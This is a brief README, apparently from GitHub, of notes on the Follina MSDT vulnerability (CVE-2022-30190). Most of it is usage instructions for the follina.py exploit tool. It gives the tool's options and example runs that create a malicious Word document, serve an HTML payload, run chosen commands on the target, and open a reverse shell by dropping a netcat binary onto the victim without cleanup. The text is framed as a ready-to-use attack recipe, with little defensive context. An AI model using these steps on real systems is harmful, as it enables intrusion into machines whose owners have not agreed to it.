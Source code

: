 # Follina
Notes related to CVE-2022-30190

FOLLINA: CVE-2022-30190

1.	Uses Microsoft Support Diagnostic Tool (MSDT)
2.	Exploits diagnostic window opened for Diagnosis and when executed properly, gives reverse shell to attacker.

3.	Github: 
    (a).	https://github.com/JohnHammond/msdt-follina
    (b).	https://github.com/chvancooten/follina.py

4.	Thanks to:
    (a).	@_johnhammond
    (b).	@networkchuck

5.	Usage
    follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
    options:
      -h, --help            show this help message and exit
      --command COMMAND, -c COMMAND
                            command to run on the target (default: calc)
      --output OUTPUT, -o OUTPUT
                            output maldoc file (default: ./follina.doc)
      --interface INTERFACE, -i INTERFACE
                            network interface or IP address to host the HTTP server (default: eth0)
      --port PORT, -p PORT  port to serve the HTTP server (default: 8000)


6.	Examples
    (a).	Pop calc.exe:
          $ python3 follina.py   
          [+] copied staging doc /tmp/9mcvbrwo
          [+] created maldoc ./follina.doc
          [+] serving html payload on :8000
    (b).	Pop notepad.exe:
          $ python3 follina.py -c "notepad"
    (c).	Get a reverse shell on port 9001. 
          Note, this downloads a netcat binary onto the victim and places it in C:\Windows\Tasks. It does not clean up the binary. This will trigger        
          antivirus detections unless AV is disabled.
          $ python3 follina.py -r 9001

	 

